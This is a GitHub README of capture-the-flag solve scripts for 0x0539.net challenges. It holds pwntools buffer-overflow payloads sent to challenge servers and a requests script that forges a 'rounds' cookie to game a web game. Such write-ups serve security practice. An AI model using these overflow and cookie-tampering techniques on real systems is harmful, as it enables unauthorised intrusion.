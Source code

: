 <h1 align="center">
	<img src="https://lh3.googleusercontent.com/proxy/CpoUd8Vc7hVO5iuIL7QkWnlU5yt5dADWL_4vnIxil9CLnk9JokqiAJpoQcqe5jJW6doC-BgT-yi8" width="300px"><br>
    0x0539 - Here I will post my solutions/exploits for some of the challenges on 0x0539.net
</h1>
<p align="center">
	This repository will contain my exploits for solving some challenges on 0x0539.net. Please don't steal my code, and claim it as your own.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## SIGSEGV
```py
from pwn import *


# SIGSEGV
# Date: 08/21/21
# Made by 0x1CA3


class Pwn():
	def __init__(self, host, port):
		self.host = host
		self.port = port

	def exploit(self):
		payload = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
		connection = remote(self.host, self.port)
		connection.sendline(payload)
		connection.interactive()

def main():
	host = "challenges.0x0539.net"
	port = 7071
	Pwn(host, port).exploit()

if __name__ == "__main__":
	main()
```

## Inizializzato Pizzaria
```py
from pwn import *


# Inizializzato Pizzaria
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host, port):
        self.host = host
        self.port = port

    def exploit(self):
        payload = b'444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444'
        connection = remote(self.host, self.port)
        connection.sendline(b'3')
        
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        
        connection.sendline(b'4')
        connection.interactive()

def main():
    host = "challenges.0x0539.net"
    port = 3001
    Pwn(host, port).exploit()

if __name__ == "__main__":
    main()
```

## Lucky Feeling
```py
import requests


# Lucky Feeling
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host):
        self.host = host
    
    def exploit(self):
        s = requests.Session()
        site_cookies = {"rounds": "999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999"}
        
        a = s.get(self.host, cookies=site_cookies)
        
        for i in range(99):
            a = s.post(self.host, cookies=site_cookies, data={"guess": ""})
        print(s.post(self.host, cookies=site_cookies, data={"guess": ""}).text)

def main():
    host = "http://challenges.0x0539.net:3002/"
    Pwn(host).exploit()

if __name__ == "__main__":
    main()
```
## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.

